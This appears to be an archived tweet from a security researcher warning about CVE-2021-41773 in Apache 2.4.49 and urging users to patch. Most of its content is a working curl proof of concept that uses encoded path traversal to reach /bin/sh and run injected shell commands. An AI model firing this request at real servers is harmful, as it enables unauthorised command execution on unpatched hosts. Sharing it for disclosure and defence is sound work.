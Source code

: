
# hackerfantastic
**https://twitter.com/hackerfantastic/status/1445531829985968137 _at 2021-10-05 23:30:19_**
<blockquote>
Here's how to run full commands with arguments via CVE-2021-41773 via a path traversal vulnerability in the event mod-cgi is enabled on Apache 2.4.49

curl --data "A=|id&gt;&gt;/tmp/x;uname\$IFS-a&gt;&gt;/tmp/x" 'http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -vv

Patch urgently. https://t.co/jaL6jpR42w
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+FA-PiB1UUAQC5ip.jpg" alt="http://pbs.twimg.com/media/FA-PiB1UUAQC5ip.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>50</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>567</code></td>
<td>Favorites: <code>1254</code></td>
</tr></table>

---